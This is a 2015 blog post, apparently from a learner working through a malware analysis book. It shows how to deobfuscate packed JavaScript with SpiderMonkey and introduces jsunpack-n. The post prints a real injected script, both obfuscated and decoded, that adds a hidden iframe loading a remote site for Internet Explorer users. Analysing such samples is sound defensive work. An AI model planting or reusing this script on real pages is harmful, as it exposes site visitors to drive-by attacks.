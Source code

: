 ```yaml
---
layout: post
title: "Javascript malware | Checking it out with Spidermonkey and jsunpackn.py"
date: 2015-02-01
comments: true
categories:
---
```

Allright, I've started going through the [Malware Analyst's Cookbook ](http://www.amazon.com/Malware-Analysts-Cookbook-DVD-Techniques/dp/0470613033), the book are almost like a big guide for all the tools a malware researcher may need. I like it, opens up for yourself to have fun and try the stuff!

So I will give som articles showing the usage of tools I want to pinpoint my learning at.

## Spidermonkey

>>>[SpiderMonkey](https://developer.mozilla.org/en-US/docs/Mozilla/Projects/SpiderMonkey) is Mozilla's JavaScript engine written in C/C++. It is used in various Mozilla products, including Firefox, and is available under the MPL2.

It's supernice to have a javascript engine callable from the terminal.
Lets have a very basic example of dealing with obfuscated code being called by eval.

I'll found [this](http://stackoverflow.com/questions/7765594/javascript-code-injected-into-site-can-you-help-me-decrypt-it) post at stackoverflow.

He want the following code decrypted:

```javascript
eval(function(p,a,c,k,e,d){e=function(c){return(c<a?'':e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--){d[e(c)]=k[c]||e(c)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('i 9(){a=6.h(\'b\');7(!a){5 0=6.j(\'k\');6.g.l(0);0.n=\'b\';0.4.d=\'8\';0.4.c=\'8\';0.4.e=\'f\';0.m=\'w://z.o.B/C.D?t=E\'}}5 2=A.x.q();7(((2.3("p")!=-1&&2.3("r")==-1&&2.3("s")==-1))&&2.3("v")!=-1){5 t=u("9()",y)}',41,41,'el||ua|indexOf|style|var|document|if|1px|MakeFrameEx|element|yahoo_api|height|width|display|none|body|getElementById|function|createElement|iframe|appendChild|src|id|25u|msie|toLowerCase|opera|webtv||setTimeout|windows|http|userAgent|500|asso|navigator|com|showthread|php|72291731'.split('|'),0,{}))
```

Save the code inte a file with a firstline of `eval = print;`

The from the terminal call: `evil.js | indent`
Indent is a nice tool in linux used to indent and make the code readable, it's made for C but works allright for languages with a similar syntax.

Output:

```javascript
function
MakeFrameEx ()
{
  element = document.getElementById ('yahoo_api');
  if (!element)
    {
      var el = document.createElement ('iframe');
      document.body.appendChild (el);
      el.id = 'yahoo_api';
      el.style.width = '1px';
      el.style.height = '1px';
      el.style.display = 'none';
    el.src = 'http://asso.25u.com/showthread.php?t=72291731'}
}

var ua = navigator.userAgent.toLowerCase ();
if (((ua.indexOf ("msie") != -1 && ua.indexOf ("opera") == -1
      && ua.indexOf ("webtv") == -1)) && ua.indexOf ("windows") != -1)
  {
  var t = setTimeout ("MakeFrameEx()", 500)
  }


```

You can do this everywhere you have a javascript interpreter but the shell offers simplicity and effectiveness for us who aren't web devs.

As for the code analysis we see that it creates an iframe and appends it to the body. The link are down but you may 

##jsunpackn.py
>[jsunpack-n](https://code.google.com/p/jsunpack-n/) emulates browser functionality when visiting a URL. It's purpose is to detect exploits that target browser and browser plug-in vulnerabilities. It accepts many different types of input:

>* PDF files - samples/sample-pdf.file
* Packet Captures - samples/sample-http-exploit.pcap
* HTML files
* JavaScript files
* SWF files

What I'm most excited about right now is malicious pdf files.
I've downloaded a couple of samples from [http://contagiodump.blogspot.se/2013/03/16800-clean-and-11960-malicious-files.html](http://contagiodump.blogspot.se/2013/03/16800-clean-and-11960-malicious-files.html)